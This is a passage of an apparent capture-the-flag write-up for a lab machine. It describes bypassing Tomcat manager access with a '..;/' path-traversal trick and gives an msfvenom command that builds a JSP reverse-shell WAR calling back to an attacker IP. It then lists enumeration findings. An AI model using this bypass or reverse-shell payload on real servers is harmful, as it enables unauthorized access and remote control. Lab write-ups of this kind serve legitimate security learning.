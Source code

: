     Accessing tomcat through the path `/manager` we're automatically redirected to `/manager/html`, which is prevented by mutual authentication. Looking for another URL under management console, found in this documentation page [Apache Tomcat 7 (7.0.109) - Manager App HOW-TO](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html) a few other URLs, being `/manager/text` the first one listed, to which I'm not authorized. Trying the second URL found on the same page, which is `/manager/status`, once already authenticated, returned server information but as this is a static page there's nothing to do here.

## Initial Access

Once I have nothing to do on this page, and the RCE most probable will be via Apache Tomcat manager, once we have `manager-gui,admin-gui` privileges, started to try some directory traversal attacks based on [PayloadsAllTheThings/Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) and, testing a bypass with `..;/` I have succeeded on accessing the management console at `https://seal.htb/manager/status/..;/html`.

Once we now have access to the manager console, we can upload a reverse shell payload generated using `msfvenom` as command below

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war > reverse.war
```

:bulb: **Tip**: One important point here is that I needed to intercept all page requests so I could adjust the post request to the path traversal vulnerability found
{: .notice--info}

## User flag

Enumerating this box, now that we have an interactive shell, ran `linpeas.sh`, where these were the findings identified:

- Users with console access:

```plaintext
uid=0(root) gid=0(root) groups=0(root)
uid=1000(luis) gid=1000(luis) groups=1000(luis)
```

- Read access to Nginx logs at `/var/log/nginx/` where we could extract some information from the logs

- Readable backup archives at `/opt/backups/archives/`, created by `luis`

- Web files (possible certificate for mutual auth)

```plaintext
/var/www/:
total 16K
drwxr-xr-x  4 root root 4.0K May  7 09:06 .
drwxr-xr-x 14 root root 4.0K May  7 09:06 ..
drwxr-xr-x  2 root root 4.0K Jul  5 07:57 html
drwxr-xr-x  2 root root 4.0K May  7 09:06 keys
```

- Interesting files inside `luis` profile
